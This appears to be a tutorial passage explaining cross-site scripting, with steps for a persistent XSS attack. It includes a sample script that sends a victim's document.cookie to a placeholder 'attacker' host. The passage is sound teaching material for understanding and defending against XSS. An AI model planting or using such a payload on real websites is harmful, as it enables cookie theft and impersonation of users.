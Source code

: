**Example:-**

In this example, we will assume that the attacker's ultimate goal is to steal the victim's cookies by exploiting an XSS vulnerability in the website. This can be done by having the victim's browser parse the following HTML code:
```
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
```
This script navigates the user's browser to a different URL, triggering an HTTP request to the attacker's server. The URL includes the victim's cookies as a query parameter, which the attacker can extract from the request when it arrives to his server. Once the attacker has acquired the cookies, he can use them to impersonate the victim and launch further attacks.

From now on, the HTML code above will be referred to as the malicious string or the malicious script. It is important to note that the string itself is only malicious if it ultimately gets parsed as HTML in the victim's browser, which can only happen as the result of an XSS vulnerability in the website.

#### How it works
<img src="assets/persistent-xss.png" width="500" />

1. The attacker uses one of the website's forms to insert a malicious string into the website's database.

2. The victim requests a page from the website.

3. The website includes the malicious string from the database in the response and sends it to the victim.
